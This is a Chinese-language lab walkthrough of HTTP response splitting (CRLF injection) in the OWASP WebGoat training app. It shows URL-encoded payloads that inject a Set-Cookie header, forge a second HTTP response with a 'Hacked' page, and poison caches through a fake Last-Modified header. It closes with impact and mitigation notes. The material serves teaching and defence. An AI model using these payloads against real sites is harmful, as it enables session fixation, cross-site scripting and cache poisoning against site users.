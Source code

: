 ## HTTP响应拆分
HTTP响应拆分漏洞，也叫CRLF注入攻击。利用CR(%0d)与LF(%0a)等特殊字符串进行攻击。HTTP头由很多被CRLF组合分离的行构成，每行的结构都是“键：值”。如果用户输入的值部分注入了CRLF字符，它有可能改变的HTTP报头结构。

### 漏洞分析
一般网站会在HTTP头中用Location: http://example.com这种方式来进行302跳转，所以我们能控制的内容就是Location:后面的XXX某个网址。

所以一个正常的302跳转包是这样：
```http
HTTP/1.1 302 Moved Temporarily 
Date: Mon, 20 Apr 2015 20:23:57 GMT
Content-Type: text/html 
Content-Length: 50 
Connection: close 
Location: http://example.com/WebGoat/attack
```
如果在HTTP头中`Location`它的值变为`http://example.com/WebGoat/attack%0aSet-cookie:PHPSESSID%3Dexample.com`的时候，HTTP返回的头信息会变成下面这样：
```http
HTTP/1.1 302 Moved Temporarily 
Date: Mon, 20 Apr 2015 20:25:17 GMT
Content-Type: text/html 
Content-Length: 50 
Connection: close 
Location: http://example.com/WebGoat/attack
Set-cookie: PHPSESSID=example.com
```
这样就成功的在http头里面注入了新的key/value。
这样也就可以随意的执行xss攻击了。

所以，可以这样构造一个url请求。
```http
http://example.com/WebGoat/attack%0aHTTP/1.1%20200%20OK%0aContent-Type:%20text/html%0aSet-cookie:PHPSESSID%3Dexample.com%0aX-XSS-Protection:%200%0aContent-Length:%2049%0a%0a<html><head><title>Hacked</title></head><body>hacked Q6E79D</body><html>
```

### WebGoat的HTTP Splitting
课程是两个步骤：
第一步，执行拆分攻击。
第二步，缓存污染，要求篡改HTTP头中的Last‐Modified字段。
#### 工具
- [WebScarab](https://www.owasp.org/index.php/WebScarab)
- [PCE](http://yehg.net/encoding) - PHP Charset Encoder/String Encrypter
需要注意，以下操作过程仅适用于Linux 环境。如果您正在使用Windows，请作相关的修
改。Windows 系统中同时使用CR 和LF 两个字符表示新行。Linux 用户只需要使用LF，Mac OS
用户请使用CR。所以如果您正在使用Windows 系统，请将以下操作过程中所有的%0a 需要
替换成%0d%0a（Windows）或%0d（Mac OS）。

第一步拆分攻击，使用PCE对下面的代码进行URL编码
```html
Foobar
Content-Length: 0


HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 47


<html><head><title>Hacked</title></head><body>hacked Q6E79D</body><html>
```
最后得到的结果是：
```html
Foobar%0AContent-Length%3A%200%0A%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2047%0A%0A%0A%3Chtml%3E%3Chead%3E%3Ctitle%3EHacked%3C%2Ftitle%3E%3C%2Fhead%3E%3Cbody%3Ehacked%20Q6E79D%3C%2Fbody%3E%3Chtml%3E
```
填充到search输入框提交后得到hacked Q6E79D页面信息。然后点击浏览器后退。
第二步缓存污染，修改Last‐Modified字段：
```html
Foobar
Content-Length: 0


HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 47

<html><head><title>Hacked</title></head><body>hacked Q6E79D</body><html>
```
得到的结果是：
```html
Foobar%0AContent-Length%3A%200%0A%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2047%0A%0A%3Chtml%3E%3Chead%3E%3Ctitle%3EHacked%3C%2Ftitle%3E%3C%2Fhead%3E%3Cbody%3Ehacked%20Q6E79D%3C%2Fbody%3E%3Chtml%3E
```
填充到search输入框提交，完成本次课程的所有操作。

### 危害
攻击者可能注入自定义HTTP头。例如，攻击者可以注入会话cookie或HTML代码。这可能会进行类似的XSS（跨站点脚本）或会话固定漏洞。

### 解决方案：
限制用户输入的CR(%0d)和LF(%0a)，或者对CR(%0d)和LF(%0a)字符正确编码后再输出，以防止注入自定义HTTP头。
